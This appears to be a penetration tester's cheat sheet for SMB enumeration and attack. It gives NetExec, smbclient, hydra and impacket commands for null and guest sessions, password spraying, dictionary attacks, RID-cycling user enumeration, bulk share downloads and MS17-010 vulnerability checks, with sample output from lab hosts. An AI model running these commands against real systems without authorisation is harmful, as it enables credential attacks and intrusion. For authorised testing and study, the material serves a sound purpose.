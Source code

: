 ```yaml
---
description: Basic SMB Enumeration and Exploitation
---
```


# SMB

### Basic Enumeration

{% code overflow="wrap" %}
```bash
# List all NetExec modules
netexec smb 172.16.8.139 -L
# Check SMB version
netexec smb 172.16.8.139
# Check SMB Service on subnet
netexec smb 172.16.8.139/24

# Check null auth
smbclient -L 192.168.1.2 --no-pass
smbclient //192.168.1.2/public --no-pass
```
{% endcode %}

### Enumerate Null Sessions

Check if Null Session, also known as Anonymous session, is enabled on the network. Can be very useful on a Domain Controller to enumerate users, groups, password policies, etc.

```bash
netexec smb 172.16.8.139 -u 'nonexistusers' -p ''
netexec smb 172.16.8.139 -u 'nonexistusers' -p '' --shares
```

### Enumerate Guest Logon

Using a random username and password you can check if the target accepts guest logon. If so, it means that either the domain guest account or the local guest account of the server you're targetting is enabled.

{% code overflow="wrap" %}
```bash
netexec smb 172.16.8.139 -u Guest -p ''
netexec smb 172.16.8.139 -u Guest -p '' --shares
```
{% endcode %}

### SMB Signing Not Required

Maps the network of live hosts and saves a list of only the hosts that don't require SMB signing. List format is one IP per line.

{% code overflow="wrap" %}
```bash
netexec smb 192.168.1.0/24 --gen-relay-list relay_list.txt
```
{% endcode %}

Reference:

* [https://www.netexec.wiki/smb-protocol/enumeration](https://www.netexec.wiki/smb-protocol/enumeration)

### Dictionary Attack and Password Spraying

Dictionary attack with username and password lists.

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.10.10.1 smb2
```

Password spraying with NetExec

{% code overflow="wrap" %}
```bash
netexec smb 10.10.10.1 -u /usr/share/metasploit-framework/data/wordlists/common_users.txt -p 'Passw0rd' --continue-on-success
```
{% endcode %}

### Authenticated Enumeration

Shares check with credentials

{% code overflow="wrap" %}
```bash
# Check using valid account
netexec smb 172.16.8.139 -u asuka -p 'p@ssw0rd' --shares

# check with local account (not domain account)
netexec smb 172.16.8.139 -u asuka -p 'p@ssw0rd' --shares --local-auth
```
{% endcode %}

Username enumeration on Workstation using valid credentials

{% code overflow="wrap" %}
```bash
netexec smb 10.10.100.206 -u 'Jon' -p 'alqfna22' --users
```
{% endcode %}

Enum disk

{% code overflow="wrap" %}
```bash
netexec smb 172.16.8.140 -u 'Administrator' -p 'Password123' --disk --local-auth
```
{% endcode %}

### Password Policy Check

Check password policy on Domain/Workstation

{% code overflow="wrap" %}
```bash
netexec smb 172.16.8.139 -u 'administrator' -p 'passw0rd' --pass-pol
```
{% endcode %}

Example output:

```bash
....................
SMB         172.16.8.139    445    EVANGELION-PC    [+] Dumping password info for domain: EVANGELION
SMB         172.16.8.139    445    EVANGELION-PC    Minimum password length: 7
SMB         172.16.8.139    445    EVANGELION-PC    Password history length: 24
SMB         172.16.8.139    445    EVANGELION-PC    Maximum password age: 41 days 23 hours 53 minutes 
SMB         172.16.8.139    445    EVANGELION-PC    
SMB         172.16.8.139    445    EVANGELION-PC    Password Complexity Flags: 000000
SMB         172.16.8.139    445    EVANGELION-PC        Domain Refuse Password Change: 0
SMB         172.16.8.139    445    EVANGELION-PC        Domain Password Store Cleartext: 0
SMB         172.16.8.139    445    EVANGELION-PC        Domain Password Lockout Admins: 0
SMB         172.16.8.139    445    EVANGELION-PC        Domain Password No Clear Change: 0
SMB         172.16.8.139    445    EVANGELION-PC        Domain Password No Anon Change: 0
SMB         172.16.8.139    445    EVANGELION-PC        Domain Password Complex: 0
SMB         172.16.8.139    445    EVANGELION-PC    
SMB         172.16.8.139    445    EVANGELION-PC    Minimum password age: 1 day 4 minutes 
SMB         172.16.8.139    445    EVANGELION-PC    Reset Account Lockout Counter: 30 minutes 
SMB         172.16.8.139    445    EVANGELION-PC    Locked Account Duration: 30 minutes 
SMB         172.16.8.139    445    EVANGELION-PC    Account Lockout Threshold: None
SMB         172.16.8.139    445    EVANGELION-PC    Forced Log off Time: Not Set
```

### Password Spraying

{% code overflow="wrap" %}
```bash
netexec smb 172.16.8.139 -u username-lists.txt -p 'p@ssw0rd'
```
{% endcode %}

### RID Cycling - Username Enumeration

{% code overflow="wrap" %}
```bash
# NetExec
netexec smb 172.16.8.139 -u evasvc -p 'Serviceworks1' --rid-brute

# Impacket-lookupsid
impacket-lookupsid 'evasvc':'Serviceworks1'@evangelion.lab
impacket-lookupsid 'evasvc':'Serviceworks1'@evangelion.lab | grep SidTypeUser | cut -d' ' -f2 | cut -d'\' -f2
```
{% endcode %}

### SMBClient

```bash
# no pass
smbclient //192.168.1.2/public --no-pass
# with creds
smbclient //172.16.8.139/secrets-folder -U  'username'%'p@ssw0rd' -p 445
# download all files from shares
smbclient '//10.10.11.174/support-tools' -N -c 'prompt OFF;recurse ON;mget *'
```

### Vuln Checks

{% code overflow="wrap" %}
```bash
nmap -Pn --script 'smb-vuln*' -p 139,445 10.10.100.206
netexec smb 10.10.100.206 -u '' -p '' -M ms17-010
```
{% endcode %}

Example output:

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-24 23:50 WIB
Nmap scan report for 10.10.100.206 (10.10.100.206)
Host is up (0.38s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 13.31 seconds
```

```bash
netexec smb 10.10.100.206 -u '' -p '' -M ms17-010

SMB         10.10.100.206   445    JON-PC           [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:JON-PC) (domain:Jon-PC) (signing:False) (SMBv1:True)
SMB         10.10.100.206   445    JON-PC           [+] Jon-PC\: 
MS17-010                                            [+] 10.10.100.206 is likely VULNERABLE to MS17-010! (Windows 7 Professional 7601 Service Pack 1)
```

Updated soon...

